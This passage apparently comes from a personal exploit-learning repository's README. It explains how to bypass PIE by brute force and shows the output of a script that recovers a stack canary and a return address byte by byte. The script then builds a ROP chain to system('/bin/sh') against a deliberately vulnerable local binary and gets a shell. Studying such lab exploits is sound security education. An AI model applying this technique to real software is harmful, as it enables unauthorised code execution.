 ## Bypass PIE
The same brute force way could be used to bypass PIE (position independent executable). Important to disabe RBP registry in stack (-fomit-frame-pointer), but for release builds it is already disabled.
```bash
$ ./bypass_pie.py 
[+] Starting local process './build/stack_overflow_bypass_pie': pid 67468
[+] Start bruteforcing canary...
[+] Found right byte 0x0
[+] Found right byte 0x15
[+] Found right byte 0xe
[+] Found right byte 0x34
[+] Found right byte 0x45
[+] Found right byte 0xfb
[+] Found right byte 0xd1
[+] Found right byte 0x4e
Found canary value: 00150e3445fbd14e
[+] Start bruteforcing return address...
[+] Found right byte 0x92
[+] Found right byte 0xb4
[+] Found right byte 0xbb
[+] Found right byte 0xe8
[+] Found right byte 0x8c
[+] Found right byte 0x55
[+] Found right byte 0x0
[+] Found right byte 0x0
Found return address value: 0x558ce8bbb492
[*] '/home/talantov/projects/appsec/exploit/build/stack_overflow_bypass_pie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/talantov/projects/appsec/exploit/build/stack_overflow_bypass_pie'
Init offset: 0x1000
Base address: 0x558ce8bba000
Bin sh: 0x558ce8bbc004
Pop rdi: 0x558ce8bbb2e0
Ret: 0x558ce8bbb01a
System plt: 0x558ce8bbb144
[*] Switching to interactive mode
$ id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ ls
all.txt          peda-session-stack_overflow_bypass_canary.txt
build          README.md
bypass_canary.py  shellcode.c
bypass_pie.py      stack_overflow_bypass_aslr.cpp
CMakeLists.txt      stack_overflow_bypass_canary.cpp
dump          stack_overflow_bypass_nx.cpp
getenvvar.c      stack_overflow.cpp
mysh.c          test.py
payload
$  
```
